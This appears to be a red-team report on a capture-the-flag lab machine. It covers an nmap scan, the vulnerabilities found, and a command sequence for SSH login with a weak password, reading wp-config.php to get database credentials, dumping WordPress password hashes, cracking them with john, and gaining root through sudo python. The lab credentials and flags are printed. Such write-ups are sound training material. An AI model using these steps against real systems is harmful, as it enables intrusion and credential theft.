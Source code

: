 Table of Contents
Exposed Services
Critical Vulnerabilities
Exploitation
Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

    nmap -sn 192.168.1.0/24 to find Target 1 IP machine
          
    nmap -sV 192.168.1.110 to check open ports and services
  # 

This scan identifies the services below as potential points of entry:
Target 1
Port 22/TCP Open SSH
Port 80/TCP Open HTTP
Port 111/TCP Open RPCbind
Port 139/TCP Open Netbios-SSN
Port 445/TCP Open Netbios-SSN

The following vulnerabilities were identified on each target:
Target 1
User Enumeration, Severity: Medium, CVE-2017-5487
Weak User Password
Mismanaged User privileges
Unsalted Hash Password

Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
Target 1
flag1.txt: {b9bbcb33e11b80be759c4e844862482d}
The exploit used to find flag one was file traversal.
* ssh michael@192.168.1.110
* password michael
* cd /
* cd var/www/html
* ls
* nano service.html 
* Within service.html: Ctrl-w flag or cat service.html | grep flag

flag2.txt: {fc3fd58dcdad9ab23faca6e9a36e581c}
File traversal was used again to find flag2.
* ssh michael@192.168.1.110
* password michael
* cd /
* cd var/www
* ls
* cat flag2.txt

Finding the MySQL database password.
cat /var/www/html/wordpress/wp-config.php


Use the credentials to log into MySQL and dump WordPress user password hashes.
* mysql -u root -p
* R@v3nSecurity
* show databases;
* use wordpress;
* show tables;
* SELECT * FROM wp_users;

SELECT * FROM wp_user INTO OUTFILE ‘/home/michael/wp_hashes.txt’;
Dumps table to a .txt file./home

Nano the file and change it to a format john reads.	
Change user1 and 2 to Michael and steven.

SELECT * FROM wp_posts
Reading the other tables to get flags 3 and 4

Crack password hashes with john.

    john --wordlist=/usr/share/wordlists/rockyou.txt wp-hashes.txt 
    john --show hashed_passwords.txt

Secure a user shell as the user whose password you cracked.
* ssh steven@192.168.1.110
* pink84

Escalate to root. One flag can be discovered after this step.
* sudo -l
* sudo python -c 'import pty;pty.spawn("/bin/bash")'

locate flag

* cat /root/flag4.txt





